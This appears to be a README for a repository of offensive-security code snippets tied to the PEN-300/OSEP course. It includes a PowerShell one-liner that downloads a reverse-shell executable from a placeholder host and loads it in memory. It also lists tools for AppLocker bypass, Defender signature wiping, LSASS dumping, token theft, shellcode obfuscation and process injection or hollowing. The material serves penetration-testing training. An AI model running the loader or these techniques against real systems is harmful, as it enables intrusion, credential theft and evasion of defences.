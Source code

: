 # OSEP Code Snippets
Code examples are provided as-is, without any form of warranty. Based on Offensive Security's [PEN-300](https://www.offensive-security.com/pen300-osep/) course.

Classes and methods are public, so most binaries should allow for reflective loading as below.

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main("".Split())
```

### Contents
|Snippet Name|Description|
|--|--|
| AppLocker Bypass PowerShell Runspace (C#) | Base binary for an applocker bypass using a combination of `CertUtil`, `BitsAdmin`, and `InstallUtil`. See `README.md` for details.|
| Fileless Lateral Movement (C#) | Wipes Windows Defender signatures on the remote host and uses a PSExec-like method (except using an existing process) to achieve lateral movement. Takes arguments for the target, the target service, and the target binary to run. Note that a non-critical service should be chosen, such as `SensorService`. |
|Linux Shellcode Encoder (Python) | Utility scripts to encode C# payloads from Linux, either ingesting a raw shellcode payload (.bin), or automatically feeding from 'msfvenom'. Supports XOR and ROT encoding with an arbitrary key, and prints the decoding function. Can be used to replace the C# ROT/XOR encoder scripts.|
|Linux Shellcode Loaders (C) |Various C-based shellcode loaders, including base binaries for library hijacking.|
|MiniDump (C# & PS1) |A simple binary to Dump LSASS to `C:\Windows\Tasks\lsass.dmp`. Also provided as native PowerShell script.|
|MSSQL (C#)|An example binary that includes a variety of discussed MSSQL interactions. Change the code to include only what you need.|
|PrintSpoofer.NET (C#)|Steals the token of the incoming authentication forced with the [PrintSpooler exploit](https://github.com/leechristensen/SpoolSample), and use that token to run a given binary. Modified to not require an interactive logon session. Takes arguments for the pipe name and binary to run.|
|ROT Shellcode Encoder (C#)|A simple binary to apply state-of-the-art ROT encoding to obfuscate the shellcode. It takes an argument for the number of rotations.|
|Sections Shellcode Process Injector (C#)|Injects and runs shellcode using `NtCreateSection`, `NtMapViewOfSection`, `NtUnMapViewOfsection` and `NtClose` instead of the "standard" method.|
|Shellcode Process Hollowing (C#)|Hollows a `svchost` process and runs the shellcode from there. Scores 0/68 on VirusTotal at the time of writing.|
|Shellcode Process Injector (C# & PS1) | Simple shellcode runner that applies process injection. Accepts an argument for the process to inject into. If no argument is given, it attempts to pick a suitable process based on privilege level. Also provided as native PowerShell script (though it is a bit simpler).|
|Simple Shellcode Runner (C# & PS1 & VBA)|The simplest of shellcode runners. Also provided as native PowerShell and VBA scripts.|
|XOR Shellcode Encoder (C#)|A simple binary to apply state-of-the-art XOR encoding to obfuscate the shellcode.|

